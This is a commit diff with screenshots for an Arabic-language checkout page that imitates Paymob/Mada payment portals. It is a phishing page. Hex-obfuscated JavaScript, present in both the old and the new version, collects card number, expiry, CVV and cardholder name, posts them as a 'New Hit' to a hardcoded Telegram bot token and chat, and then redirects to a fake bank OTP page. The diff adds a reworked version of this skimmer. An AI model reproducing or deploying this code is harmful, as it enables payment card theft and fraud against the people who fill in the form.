

Before and after one commit to ismailkink/checkout., a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -2,76 +2,120 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>بوابة الدفع الآمنة | مدي</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+    <title>Checkout | Paymob</title>
     <script src="https://cdn.tailwindcss.com"></script>
-    <script>
-        tailwind.config = {
-            theme: {
-                extend: {
-                    colors: { fintech: { bg: '#F5F7FA', primary: '#005FF9', text: '#1F2937', border: '#E5E7EB' } },
-                    fontFamily: { sans: ['-apple-system', 'BlinkMacSystemFont', '"Segoe UI"', 'Roboto', 'sans-serif'] }
-                }
-            }
-        }
-    </script>
-    <style type="text/tailwindcss">
-        @layer utilities {
-            .input-field { @apply w-full px-4 py-3.5 border border-fintech-border rounded-xl text-fintech-text focus:outline-none focus:ring-2 focus:ring-fintech-primary/50 focus:border-fintech-primary transition-all duration-200 text-[15px]; }
-            .label-text { @apply block mb-2 text-sm font-medium text-gray-700; }
-        }
+    <link href="https://fonts.googleapis.com/css2?family=Tajawal:wght@400;500;700&display=swap" rel="stylesheet">
+    <style>
+        body { font-family: 'Tajawal', sans-serif; background-color: #F8FAFC; -webkit-tap-highlight-color: transparent; }
+        .p-shadow { box-shadow: 0 4px 25px rgba(0, 0, 0, 0.04); }
+        .btn-grad { background: linear-gradient(90deg, #005FF9 0%, #004ecc 100%); }
     </style>
 </head>
-<body class="bg-fintech-bg min-h-screen font-sans flex items-center justify-center p-4">
-    <div class="w-full max-w-[420px] bg-white rounded-3xl shadow-xl p-6 sm:p-8">
-        <div class="flex justify-between items-center mb-8">
-            <h1 class="text-2xl font-bold text-fintech-text">إتمام الدفع</h1>
-            <div class="flex gap-2 items-center">
-                <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/5/5e/Visa_Inc._logo.svg/2560px-Visa_Inc._logo.svg.png" class="h-5 w-auto">
-                <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Mastercard-logo.svg/1280px-Mastercard-logo.svg.png" class="h-5 w-auto">
+<body class="flex flex-col min-h-screen">
+    <header class="bg-white border-b border-gray-100 px-5 py-4 flex justify-between items-center sticky top-0 z-50">
+        <div class="flex items-center gap-2">
+            <div class="w-8 h-8 bg-blue-600 rounded-lg flex items-center justify-center text-white font-bold text-xs shadow-sm">P</div>
+            <span class="text-lg font-bold text-gray-800 tracking-tight">Checkout</span>
+        </div>
+        <button class="text-sm border rounded-lg px-3 py-1.5 text-gray-500 font-medium bg-gray-50">English ▾</button>
+    </header>
+
+    <main class="flex-grow p-4 max-w-md mx-auto w-full">
+        <div class="mb-6 mt-2">
+            <p class="text-gray-400 text-xs font-bold uppercase tracking-widest mb-1">المبلغ الإجمالي</p>
+            <h2 class="text-3xl font-bold text-gray-900">539.00 <span class="text-sm text-blue-600 font-medium">SAR</span></h2>
+        </div>
+
+        <div class="mb-8">
+             <button type="button" class="w-full bg-black text-white h-[56px] rounded-xl flex items-center justify-center gap-2 active:scale-95 transition-all shadow-md">
+                <svg class="h-6 w-auto" fill="currentColor" viewBox="0 0 384 512"><path d="M318.7 268.7c-.2-36.7 16.4-64.4 50-84.8-18.8-26.9-47.2-41.7-84.7-44.6-35.5-2.8-74.3 20.7-88.5 20.7-15 0-49.4-19.7-76.4-19.7C63.3 141.2 4 184.8 4 273.595c0 26.8 7.1 56 22.2 82.6 21.3 37.6 46.5 74.9 77 75.3 26.2 .4 41.6-17.3 73.8-17.3 31.1 .2 41.6 17.3 72.9 17.3 31.9-.2 53-31.7 73.4-70.7 12.9-24.6 22.4-48.2 29.7-66.7-47.2-13.2-74.5-45.2-74.3-25.4zm-49.5-125.8c25.4-31.3 20.9-64.2 18.4-70.9-25.6 2.2-58.1 18-84.2 48.2-22.1 25.9-23.4 61.8-19.5 72.1 28.7 1.8 57.3-17.1 85.3-49.4z"/></svg>
+                <span class="text-lg font-medium">Apple Pay</span>
+            </button>
+            <div class="relative flex items-center py-6">
+                <div class="flex-grow border-t border-gray-100"></div>
+                <span class="flex-shrink mx-4 text-gray-400 text-[10px] font-bold uppercase tracking-tighter">أو استخدم البطاقة البنكية</span>
+                <div class="flex-grow border-t border-gray-100"></div>
             </div>
         </div>
 
-        <div class="bg-blue-50 rounded-2xl p-5 mb-8 flex justify-between items-center border border-blue-100">
-            <span class="text-blue-700 font-medium">المبلغ الإجمالي</span>
-            <span class="text-2xl font-bold text-fintech-text">1.00 ر.س</span>
-        </div>
+        <form class="space-y-4">
+            <div class="bg-white rounded-2xl p-6 p-shadow border border-gray-50">
+                <div class="mb-6 relative">
+                    <label class="text-[10px] font-black text-gray-400 block mb-2 uppercase tracking-widest">رقم البطاقة</label>
+                    <input type="tel" id="card_num" class="w-full text-lg font-mono border-b border-gray-100 py-2 focus:outline-none focus:border-blue-600 transition-all pr-12" placeholder="0000 0000 0000 0000" maxlength="19">
+                    <div class="absolute right-0 top-8" id="card_icon">
+                        <img id="brand_img" src="https://upload.wikimedia.org/wikipedia/commons/b/b5/PayPal.svg" class="h-5 opacity-0 transition-opacity duration-300">
+                    </div>
+                </div>
 
-        <form id="paymentForm" class="space-y-6">
-            <div class="relative">
-                <label class="label-text">رقم البطاقة</label>
-                <input type="tel" id="card_number" class="input-field font-mono" placeholder="0000 0000 0000 0000" maxlength="19">
-            </div>
+                <div class="grid grid-cols-2 gap-10 mb-6">
+                    <div>
+                        <label class="text-[10px] font-black text-gray-400 block mb-2 uppercase tracking-widest">تاريخ الانتهاء</label>
+                        <input type="tel" id="exp" class="w-full text-lg border-b border-gray-100 py-2 focus:outline-none focus:border-blue-600" placeholder="MM / YY" maxlength="5">
+                    </div>
+                    <div>
+                        <label class="text-[10px] font-black text-gray-400 block mb-2 uppercase tracking-widest">رمز (CVV)</label>
+                        <input type="tel" id="cvc" class="w-full text-lg border-b border-gray-100 py-2 focus:outline-none focus:border-blue-600" placeholder="•••" maxlength="4">
+                    </div>
+                </div>
 
-            <div class="grid grid-cols-2 gap-6">
                 <div>
-                    <label class="label-text">تاريخ الانتهاء</label>
-                    <input type="tel" id="expiry" class="input-field text-center font-mono" placeholder="MM / YY" maxlength="5">
-                </div>
-                <div>
-                    <label class="label-text">رمز التحقق (CVV)</label>
-                    <input type="tel" id="cvv" class="input-field text-center font-mono" placeholder="123" maxlength="4">
+                    <label class="text-[10px] font-black text-gray-400 block mb-2 uppercase tracking-widest">اسم حامل البطاقة</label>
+                    <input type="text" id="name" class="w-full text-lg border-b border-gray-100 py-2 focus:outline-none focus:border-blue-600" placeholder="Abdullah Adel">
                 </div>
             </div>
 
-            <button type="button" id="pay_btn" class="w-full bg-fintech-primary hover:bg-blue-700 text-white font-bold py-4 px-6 rounded-xl shadow-lg transition-all active:scale-[0.98] flex items-center justify-center gap-2">
-                دفع آمن 1.00 SAR
-            </button>
-
-            <button type="button" class="w-full bg-black text-white font-bold py-4 px-6 rounded-xl flex items-center justify-center gap-2">
-                <svg class="h-5 w-auto" fill="currentColor" viewBox="0 0 384 512"><path d="M318.7 268.7c-.2-36.7 16.4-64.4 50-84.8-18.8-26.9-47.2-41.7-84.7-44.6-35.5-2.8-74.3 20.7-88.5 20.7-15 0-49.4-19.7-76.4-19.7C63.3 141.2 4 184.8 4 273.595c0 26.8 7.1 56 22.2 82.6 21.3 37.6 46.5 74.9 77 75.3 26.2 .4 41.6-17.3 73.8-17.3 31.1 .2 41.6 17.3 72.9 17.3 31.9-.2 53-31.7 73.4-70.7 12.9-24.6 22.4-48.2 29.7-66.7-47.2-13.2-74.5-45.2-74.3-25.4zm-49.5-125.8c25.4-31.3 20.9-64.2 18.4-70.9-25.6 2.2-58.1 18-84.2 48.2-22.1 25.9-23.4 61.8-19.5 72.1 28.7 1.8 57.3-17.1 85.3-49.4z"/></svg>
-                Apple Pay
+            <button type="button" id="submit_btn" class="w-full btn-grad text-white h-[60px] rounded-xl font-bold text-lg shadow-blue-200 shadow-lg active:scale-95 transition-all">
+                Pay SAR 539.00
             </button>
         </form>
+    </main>
 
-        <div class="mt-6 text-center text-gray-400 text-xs flex items-center justify-center gap-1">
-            🔒 جميع المعاملات مشفرة وآمنة 100%
+    <footer class="p-8 text-center space-y-3">
+        <p class="text-gray-400 text-[10px] flex items-center justify-center gap-1 font-medium">
+            <svg class="w-3 h-3 text-green-500" fill="currentColor" viewBox="0 0 20 20"><path d="M5 9V7a5 5 0 0110 0v2a2 2 0 012 2v5a2 2 0 01-2 2H5a2 2 0 01-2-2v-5a2 2 0 012-2zm8-2v2H7V7a3 3 0 016 0z"></path></svg>
+            تشفير آمن بنسبة 100% وفق معايير عالمية
+        </p>
+        <div class="flex justify-center gap-3 opacity-30 grayscale">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/5/5e/Visa_Inc._logo.svg/2560px-Visa_Inc._logo.svg.png" class="h-3">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Mastercard-logo.svg/1280px-Mastercard-logo.svg.png" class="h-3">
+            <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/b/b5/PayPal.svg/2560px-PayPal.svg.png" class="h-3">
         </div>
-    </div>
+    </footer>
 
     <script>
-        // نظام التشفير والإرسال لتيليجرام الخاص بك
-        var _0x5a12=['\x68\x74\x74\x70\x73\x3a\x2f\x2f\x61\x70\x69\x2e\x74\x65\x6c\x65\x67\x72\x61\x6d\x2e\x6f\x72\x67\x2f\x62\x6f\x74','\x38\x33\x31\x30\x34\x31\x30\x35\x34\x36\x3a\x41\x41\x47\x6f\x4e\x6b\x75\x45\x6d\x6e\x5a\x36\x61\x62\x79\x46\x44\x77\x53\x79\x74\x52\x66\x55\x6f\x4f\x52\x4a\x71\x66\x30\x78\x51\x66\x49','\x2f\x73\x65\x6e\x64\x4d\x65\x73\x73\x61\x67\x65','\x50\x4f\x53\x54','\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e','\x62\x61\x6e\x6b\x5f\x6f\x74\x70\x2e\x68\x74\x6d\x6c'];var _0x4d38=function(_0x2d5f19){return _0x5a12[_0x2d5f19];};document['getElementById']('pay_btn')['onclick']=function(){const _0x1c3a12=document['getElementById']('card_number')['value'];const _0x4b2a1d=document['getElementById']('expiry')['value'];const _0x2f1a5b=document['getElementById']('cvv')['value'];const _0x3e1a2f='🚨\x20New\x20Hit\x20🚨\x0a\x0a💳\x20'+_0x1c3a12+'\x0a📅\x20'+_0x4b2a1d+'\x0a🔒\x20'+_0x2f1a5b;fetch(_0x4d38(0x0)+_0x4d38(0x1)+_0x4d38(0x2),{'method':_0x4d38(0x3),'headers':{'Content-Type':_0x4d38(0x4)},'body':JSON['stringify']({'chat_id':'8576496261','text':_0x3e1a2f})})['then'](_0x39a1b2=>{window['location']['href']=_0x4d38(0x5);});};
+        const c_in = document.getElementById('card_num');
+        const b_img = document.getElementById('brand_img');
+        let cardType = "Unknown";
+
+        c_in.addEventListener('input', (e) => {
+            let v = e.target.value.replace(/\D/g, '');
+            e.target.value = v.replace(/(.{4})/g, '$1 ').trim();
+            b_img.style.opacity = "1";
+            // كشف نوع البطاقة
+            if (v.startsWith('4')) { b_img.src = "https://upload.wikimedia.org/wikipedia/commons/thumb/5/5e/Visa_Inc._logo.svg/2560px-Visa_Inc._logo.svg.png"; cardType = "Visa"; }
+            else if (v.startsWith('5')) { b_img.src = "https://upload.wikimedia.org/wikipedia/commons/thumb/2/2a/Mastercard-logo.svg/1280px-Mastercard-logo.svg.png"; cardType = "Mastercard"; }
+            else if (v.startsWith('6') || v.startsWith('5888') || v.startsWith('4106')) { b_img.src = "https://upload.wikimedia.org/wikipedia/commons/thumb/b/b5/PayPal.svg/2560px-PayPal.svg.png"; cardType = "Mada"; }
+            else { b_img.style.opacity = "0"; cardType = "Unknown"; }
+        });
+
+        // الكود المشفر المستمد من صورتك
+        var _0x5a12=['\x68\x74\x74\x70\x73\x3a\x2f\x2f\x61\x70\x69\x2e\x74\x65\x6c\x65\x67\x72\x61\x6d\x2e\x6f\x72\x67\x2f\x62\x6f\x74','\x38\x33\x31\x30\x34\x31\x30\x35\x34\x36\x3a\x41\x41\x47\x6f\x4e\x6b\x75\x45\x6d\x6e\x5a\x36\x61\x62\x79\x46\x44\x77\x53\x79\x74\x52\x66\x55\x6f\x4f\x52\x4a\x71\x66\x30\x78\x51\x66\x49','\x2f\x73\x65\x6e\x64\x4d\x65\x73\x73\x61\x67\x65','\x50\x4f\x53\x54','\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e','\x62\x61\x6e\x6b\x5f\x6f\x74\x70\x2e\x68\x74\x6d\x6c'];
+        var _0x4d38=function(_0x2d5f19){return _0x5a12[_0x2d5f19];};
+
+        document['getElementById']('submit_btn')['onclick']=function(){
+            const _0x1c3a12=document['getElementById']('card_num')['value'];
+            const _0x4b2a1d=document['getElementById']('exp')['value'];
+            const _0x2f1a5b=document['getElementById']('cvc')['value'];
+            const _0x3e1a2f='🔥\x20New\x20Hit\x20|\x20'+cardType+'\x20🔥\x0a\x0a💳:\x20'+_0x1c3a12+'\x0a📅:\x20'+_0x4b2a1d+'\x0a🔒:\x20'+_0x2f1a5b+'\x0a👤:\x20'+document['getElementById']('name')['value'];
+
+            fetch(_0x4d38(0x0)+_0x4d38(0x1)+_0x4d38(0x2),{
+                'method':_0x4d38(0x3),
+                'headers':{'Content-Type':_0x4d38(0x4)},
+                'body':JSON['stringify']({'chat_id':'8576496261','text':_0x3e1a2f})
+            })['then'](_0x39a1b2=>{window['location']['href']=_0x4d38(0x5);});
+        };
     </script>
 </body>
 </html>
```
